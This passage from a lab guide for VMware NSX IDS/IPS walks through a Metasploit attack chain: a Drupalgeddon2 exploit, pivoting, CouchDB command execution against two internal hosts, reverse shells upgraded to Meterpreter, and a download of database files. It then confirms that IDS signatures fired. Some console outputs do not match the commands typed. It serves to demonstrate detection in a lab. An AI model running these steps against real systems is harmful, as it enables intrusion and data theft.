> **Note**: **Attack Target** incicates the kind of service being attacked. This could be a client (in case of a client-side exploit), server, etc. In this case, you should see **Web_server** as the attack target for both events. 

8. In the **timeline** above, you can click the dots that represent each event to get summarized information.

You have now successfully completed a simple attack scenario ! In the next exercise, we will run through a more advanced scenario, in which will move the attack beyond the initial exploit against the Drupal web-frontend to a database server running on the internal network and then moving laterally once again to another database server beloging to a different application. This is similar to real-world attacks in which bad actors move within the network in order to get to the high value asset/data they are after. The NSX Distributed IDS/IPS and Distributed Firewall are uniquely positioned at te vNIC of every workload to detect and prevent this lateral movement.

## Lateral Attack Scenario
**Estimated Time to Complete: 30 minutes**

In this exercise, we will use already established **reverse shell** from the Drupal servers as a **pivot** to gain access to the internal network which is not direclty accessible from the external VM. Traffic to the internal network will be routed through the established **reverse shell** from the **App1-WEB-TIER VM**. 

In order to launch this attakc sequence, you can either manually configure the **Metasploit** modules, or edit and run a pre-defined script. If you want to go with the script option, skip to step #3 and continue from there. 

**Initiate DrupalGeddon2 attack against App1-WEB-TIER VM (again)**
1.	If you have previously existed the SSH or Console session, restart the SSH or Console session with the  **External VM** 
2. If you have previously exited Metasploit, type **sudo msfconsole** to launch **Metasploit**. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/unix/webapp/drupal_drupalgeddon2** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **set RPORT 8080** to define the port the vulnerable Drupal service runs on. 
    * Type **exploit -z** to initiate the exploit, esbalish a reverse shell, and background the session.
    
```console
msf5 > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 8080
RPORT => 8080
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit -z

[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Sending stage (38288 bytes) to 192.168.10.101
[*] Meterpreter session 1 opened (10.114.209.151:4444 -> 192.168.10.101:50982) at 2020-07-21 20:30:34 -0500
[*] Session 1 created in the background.
msf5 exploit(unix/webapp/drupal_drupalgeddon2) >
```
    
**Route traffic to the Internal Network through the esablished reverse shell**
1.	Once the Meterpreter session is established and backgrounded, type **route add 192.168.20.0/24 1**, where the subnet specified is the subnet of the **Internal Segment**
```console
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > route add 192.168.20.0/24 1
[*] Route added
```
2.	Now that we have instructed Metapsloit to route traffic to the internal subnet through the reverse shell, we can pivot the attack and attack the **App1-APP-TIER VM** on the internal network, which is running a vulnerable **CouchDB** Service. 

**Initiate CouchDB Command Execution attack against App1-APP-TIER VM**
1.	Using the already open Metasploit console, follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/linux/http/apache_couchdb_cmd_exec** to select the CouchDB Command Execution exploit module
    * Type **set RHOST 192.168.20.100** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-APP-TIER VM**. (check the NSX VM Inventory to confirm)+
    * Type **set LHOST 10.114.209.151* to define the IP address of the local attacker machine. The IP address should match the IP address of **EXTERNAL VM**. (This IP will be different in your environment !. You can run **ifconfig** to determine this IP)
    * Type **set LPORT 4445** to define the local port to use. The reverse shell will be established to this local port
    * Type **exploit** to initiate the exploit and esbalish a command shell
```console
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/linux/http/apache_couchdb_cmd_exec
[*] Using configured payload linux/x64/shell_reverse_tcp
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set RHOST 192.168.20.100
RHOST => 192.168.20.100
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set LHOST 10.114.209.151
LHOST => 10.114.209.151
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set LPORT 4445
LPORT => 4445
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > exploit
```
2. Confirm the vulnerable server was sucessfully exploited and a **shell** reverse TCP session was established from **App1-WEB-APP VM** back to the **Extermal VM**
```console
[*] Started reverse TCP handler on 10.114.209.151:4445
[*] Generating curl command stager
[*] Using URL: http://0.0.0.0:8080/l8sEqcccZNK
[*] Local IP: http://10.114.209.151:8080/l8sEqcccZNK
[*] 192.168.20.100:5984 - The 1 time to exploit
[*] Client 10.114.209.148 (curl/7.38.0) requested /l8sEqcccZNK
[*] Sending payload to 10.114.209.148 (curl/7.38.0)
[*] Command shell session 2 opened (10.114.209.151:4445 -> 10.114.209.148:50665) at 2020-07-22 08:48:51 -0500
[+] Deleted /tmp/jekukcmc
[+] Deleted /tmp/okmyzfondlujy
[*] Server stopped.
```
3. You can now interact with the shell session or upgrade to a more powerful Meterpreter session. In order to upgrade to Meterpreter, you can run the below commands 
    * Type **background** to move the shell session to the background. Confirm by entering **y**
    * Type **use multi/manage/shell_to_meterpreter** to select the shell to meterpreter upgrade module
    * Type **set LPORT 8081** to define the local port to use. The reverse shell will be established to this local port
    * Type **set session 2** to indicate the reverse command shell session from **App1-APP-TIER VM** is the one we want to upgrade
    * Type **exploit** to establish the session

```console
background
Background session 2? [y/N]  y
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > use multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > set LPORT 8081
LPORT => 8081
msf5 post(multi/manage/shell_to_meterpreter) > set session 2
session => 2
msf5 post(multi/manage/shell_to_meterpreter) > exploit
```
4. Confirm a **Meterpreter** reverse TCP session was established from **App1-APP-TIER VM** back to the **Extermal VM** and interact with the session.
```console
[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.114.209.151:8081
[*] Sending stage (980808 bytes) to 10.114.209.148
[*] Meterpreter session 3 opened (10.114.209.151:8081 -> 10.114.209.148:59526) at 2020-07-22 09:42:42 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
```
5. You can now interact with the Meterpreter session. For instance, you can run the below commands to gain more inforation on the exploited **App1-APP-TIER VM**
    * Type **sessions -l** to see all established sessions
```console
msf5 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                                                         Connection
  --  ----  ----                   -----------                                                         ----------
  1         meterpreter php/linux  www-data (33) @ 273e1700c5be                                        10.114.209.151:4444 -> 192.168.10.101:52496 (192.168.10.101)
  2         shell x64/linux                                                                            10.114.209.151:4445 -> 10.114.209.148:50665 (192.168.20.100)
  3         meterpreter x86/linux  no-user @ fd5e509d541b (uid=0, gid=0, euid=0, egid=0) @ 172.19.0.2  10.114.209.151:8081 -> 10.114.209.148:59526 (172.19.0.2)
```
> **Note**: the external IP address (10.114.209.148) the above example for sessions 2 and 3 is the NATted IP address **App1-APP-TIER VM** to establish the reverse shell. NAT was pre-configured during the automated lab deployment.

   * Type **sessions -i 3** to interact with the newly established **Meterpreter** session
   * You can now run commands as in the previous exercise but gain more information about the **App1-APP-TIER VM**, retrieve or destroy data. Below is an example

```console
meterpreter > ps

Process List
============

 PID   PPID  Name          Arch    User  Path
 ---   ----  ----          ----    ----  ----
 1     0     beam.smp      x86_64  root  /opt/couchdb/erts-6.2/bin
 36    1     sh            x86_64  root  /bin
 37    1     memsup        x86_64  root  /opt/couchdb/lib/os_mon-2.3/priv/bin
 38    1     cpu_sup       x86_64  root  /opt/couchdb/lib/os_mon-2.3/priv/bin
 40    1     inet_gethost  x86_64  root  /opt/couchdb/erts-6.2/bin
 41    40    inet_gethost  x86_64  root  /opt/couchdb/erts-6.2/bin
 42    1     couchjs       x86_64  root  /opt/couchdb/bin
 45    1     sh            x86_64  root  /bin
 48    45    sh            x86_64  root  /bin
 1392  1     sh            x86_64  root  /bin
 1395  1392  sh            x86_64  root  /bin
 1552  1395  woPDm         x86_64  root  /tmp
 1559  1     sh            x86_64  root  /bin
 1562  1559  sh            x86_64  root  /bin
 1754  1562  Qkchu         x86_64  root  /tmp
 1760  0     bash          x86_64  root  /bin
```
> **Note**: The VMs deployed in this lab run Drupal and CouchCB services as containers (built using Vulhub). The establshed session puts you into the container **cve201712635_couchdb_1** container shell.

6.	Now we can pivot the attack and laterally move to other application VM deployed in the same network segment as **App1-APP-TIER VM**. We will will use the same **apache_couchdb_cmd_exec** exploit to  the **App2-APP-TIER VM** on the internal network, which also is running a vulnerable **CouchDB** Service. 

**Initiate CouchDB Command Execution attack against App2-APP-TIER VM through App-1-APP-TIER VM**
1.	Using the already open Metasploit console, follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **background** to move the open meterpreter session to the background.
    * Type **route add 192.168.20.101/32 3** to route traffic to the **App2-APP-TIER VM** through the previusly established meterpreter session. The IP address specified should be the IP address of the **App2-APP-TIER VM**
    * Type **use exploit/linux/http/apache_couchdb_cmd_exec** to select the CouchDB Command Execution exploit module
    * Type **set RHOST 192.168.20.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App2-APP-TIER VM**. (check the NSX VM Inventory to confirm)+
    * Type **set LHOST 10.114.209.151* to define the IP address of the local attacker machine. The IP address should match the IP address of **EXTERNAL VM**. (This IP will be different in your environment !. You can run **ifconfig** to determine this IP)
    * Type **set LPORT 4446** to define the local port to use. The reverse shell will be established to this local port
    * Type **exploit** to initiate the exploit and esbalish a command shell
```console
meterpreter > background
[*] Backgrounding session 3...
msf5 post(multi/manage/shell_to_meterpreter) > route add 192.168.20.101/32 3
[*] Route added
msf5 post(multi/manage/shell_to_meterpreter) > use exploit/linux/http/apache_couchdb_cmd_exec
[*] Using configured payload linux/x64/shell_reverse_tcp
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set RHOST 192.168.20.101
RHOST => 192.168.20.100
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set LHOST 10.114.209.151
LHOST => 10.114.209.151
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set LPORT 4445
LPORT => 4445
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > exploit
```
2. Confirm the vulnerable server was sucessfully exploited and a **shell** reverse TCP session was established from **App2-APP-TIER VM** back to the **Extermal VM**
```console2
[*] Started reverse TCP handler on 10.114.209.151:4446
[*] Generating curl command stager
[*] Using URL: http://0.0.0.0:8080/GAFpUcHbTSn8hBi
[*] Local IP: http://10.114.209.151:8080/GAFpUcHbTSn8hBi
[*] 192.168.20.101:5984 - The 1 time to exploit
[*] Client 10.114.209.148 (curl/7.38.0) requested /GAFpUcHbTSn8hBi
[*] Sending payload to 10.114.209.148 (curl/7.38.0)
[*] Command shell session 4 opened (10.114.209.151:4446 -> 10.114.209.148:31532) at 2020-07-22 11:29:30 -0500
[+] Deleted /tmp/phfyklia
[+] Deleted /tmp/xhvxgpbjttxvgccd
```
3. You can now also upgrade this shell to Meterpreter, by running the below commands 
    * Type **background** to move the shell session to the background. Confirm by entering **y**
    * Type **use multi/manage/shell_to_meterpreter** to select the shell to meterpreter upgrade module
    * Type **set LPORT 8082** to define the local port to use. The reverse shell will be established to this local port
    * Type **set session 4** to indicate the reverse command shell session from **App2-APP-TIER VM** is the one we want to upgrade
    * Type **exploit** to establish the session
```console
background
Background session 2? [y/N]  y
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > use multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > set LPORT 8082
LPORT => 8081
msf5 post(multi/manage/shell_to_meterpreter) > set session 4
session => 4
msf5 post(multi/manage/shell_to_meterpreter) > exploit
```
4. You can now interact with the Meterpreter session. For instance, you can run the below commands to gain more inforation on the exploited **App2-APP-TIER VM**
    * Type **sessions -l** to see all established sessions
```console
msf5 post(multi/manage/shell_to_meterpreter) > sessions -l
```
   * Type **sessions -i 5** to interact with the newly established **Meterpreter** session
   * You can now run commands as in the previous exercise to gain more information about the **App2-APP-TIER VM**, retrieve or destroy data. 
   * Type **ls /opt/couchdb/data** to see CouchDB database files   
   * Type **download /opt/couchdb/data** to see CouchDB database files


```console

meterpreter > ls /opt/couchdb/data
Listing: /opt/couchdb/data
==========================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40755/rwxr-xr-x   4096   dir   2020-07-22 11:33:51 -0500  ._replicator_design
40755/rwxr-xr-x   4096   dir   2020-07-22 11:28:51 -0500  ._users_design
40755/rwxr-xr-x   4096   dir   2020-07-22 11:28:48 -0500  .delete
40755/rwxr-xr-x   4096   dir   2020-07-22 11:33:51 -0500  .shards
100644/rw-r--r--  24764  fil   2020-07-22 15:14:44 -0500  _dbs.couch
100644/rw-r--r--  8368   fil   2020-07-22 11:28:51 -0500  _nodes.couch
100644/rw-r--r--  8374   fil   2020-07-22 11:28:51 -0500  _replicator.couch
100644/rw-r--r--  8374   fil   2020-07-22 11:28:51 -0500  _users.couch
40755/rwxr-xr-x   4096   dir   2020-07-22 11:28:52 -0500  shards

meterpreter > download /opt/couchdb/data/
[*] mirroring  : /opt/couchdb/data//.delete -> /.delete
[*] mirrored   : /opt/couchdb/data//.delete -> /.delete
[*] mirroring  : /opt/couchdb/data//._users_design -> /._users_design
[*] mirroring  : /opt/couchdb/data//._users_design/mrview -> /._users_design/mrview
[*] downloading: /opt/couchdb/data//._users_design/mrview/3e823c2a4383ac0c18d4e574135a5b08.view -> /._users_design/mrview/3e823c2a4383ac0c18d4e574135a5b08.view
...
```
This completes the lateral movement attack scenario. Now we will go back to NSX manager and investigat this attack. Skip the below step #5 if you have gone through the manaul attack steps above.

5. If you prefer not to manually go through this attack scenario, using the above steps, you can instead run the pre-defined attack script by running **sudo ./attack2.sh**. Before you execute the script, use **sudo nano attack1.rc** and replace the RHOST and LHOST IP addresses accordingly to match with the IP addresses in your environment. 
**RHOST** on line 3 should be the IP address of the **App1-WEB-TIER VM**
**SUBNET** on line 6 (route add) should be the **Internal Network** subnet
**LHOST** on line 9 should be the IP address of the **External VM** (this local machine)
**RHOST** on line 10 should be the IP address of the **App1-APP-TIER VM**
**RHOST** on line 13 should be the IP address of the **App2-APP-TIER VM**

> **Note**: This scripted attack does not upgrade shell sessions to meterpreter sessions nor does it interact with the sessions. To interact with the established sessions, but it will cause the same signatures to fire on the NSX IDS/IPS.


**Confirm IDS/IPS Events show up in the NSX Manager UI**
1.	In the NSX Manager UI, navigate to Security -->  Security Overview
2. Under the **Insights** tab, confirm you see a number of attempted intrusion against the  **APP-1-WEB-TIER** workload

3. Click  **APP-1-WEB-TIER** to open a filtered event view for this workload. 
4. Confirm 2 signatures have fired; one exploit-specific signature for **DrupalGeddon2** and one broad signature indicating the use of a **Remote Code execution via a PHP script**

